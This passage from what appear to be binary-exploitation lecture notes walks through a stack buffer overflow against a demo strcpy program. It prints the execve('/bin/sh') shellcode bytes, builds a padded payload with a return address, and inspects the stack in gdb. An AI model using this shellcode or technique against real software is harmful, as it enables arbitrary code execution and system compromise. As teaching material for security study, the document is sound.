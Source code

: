 To get the length of our shell code, we can use `printf` and `wc`

``` example
user@si485H-base:demo$ ./hexify.sh ./execve_nonull 
\xeb\x17\x5e\x31\xc0\x50\x56\x31\xd2\x89\xe1\x89\xf3\xb0\x0b\xcd\x80\x31\xdb\x31\xc0\xb0\x01\xcd\x80\xe8\xe4\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68
user@si485H-base:demo$ printf "`./hexify.sh ./execve_nonull`" | wc -c
37
```

To make things easier, I'm going to save the bytes of the shell code to
a file called `shell`.

``` example
user@si485H-base:demo$ printf "`./hexify.sh ./execve_nonull`" > shell
user@si485H-base:demo$ wc -c shell 
37 shell
```

Next, I'm going to start up gdb to determine the address of `buf` using
our expected exploit length. I'll just start with 0xdeadbeef as the
address for a filler.

``` example
(gdb) r 5 `python -c "sh=open('shell').read(); print sh+'A'*(0x30-len(sh))+'\xef\xbe\xad\xde'"`

Starting program: /home/user/git/si485-binary-exploits/lec/10/demo/vulnerable 5 `python -c "sh=open('shell').read(); print sh+'A'*(0x30-len(sh))+'\xef\xbe\xad\xde'"`

Breakpoint 1, 0x080484db in vuln ()
(gdb) ds
Dump of assembler code for function vuln:
   0x080484d5 <+0>: push   ebp
   0x080484d6 <+1>: mov    ebp,esp
   0x080484d8 <+3>: sub    esp,0x48
=> 0x080484db <+6>: mov    DWORD PTR [ebp-0xc],0x0
   0x080484e2 <+13>:    mov    eax,DWORD PTR [ebp+0xc]
   0x080484e5 <+16>:    mov    DWORD PTR [esp+0x4],eax
   0x080484e9 <+20>:    lea    eax,[ebp-0x2c]
   0x080484ec <+23>:    mov    DWORD PTR [esp],eax
   0x080484ef <+26>:    call   0x8048360 <strcpy@plt>
   0x080484f4 <+31>:    jmp    0x8048516 <vuln+65>
   0x080484f6 <+33>:    mov    eax,DWORD PTR [ebp-0xc]
   0x080484f9 <+36>:    lea    edx,[eax+0x1]
   0x080484fc <+39>:    mov    DWORD PTR [ebp-0xc],edx
   0x080484ff <+42>:    lea    edx,[ebp-0x2c]
   0x08048502 <+45>:    mov    DWORD PTR [esp+0x8],edx
   0x08048506 <+49>:    mov    DWORD PTR [esp+0x4],eax
   0x0804850a <+53>:    mov    DWORD PTR [esp],0x804860e
   0x08048511 <+60>:    call   0x8048350 <printf@plt>
   0x08048516 <+65>:    mov    eax,DWORD PTR [ebp-0xc]
   0x08048519 <+68>:    cmp    eax,DWORD PTR [ebp+0x8]
   0x0804851c <+71>:    jl     0x80484f6 <vuln+33>
   0x0804851e <+73>:    leave  
   0x0804851f <+74>:    ret    
End of assembler dump.
(gdb) p $ebp-0xc
$1 = (void *) 0xbffff5fc
```
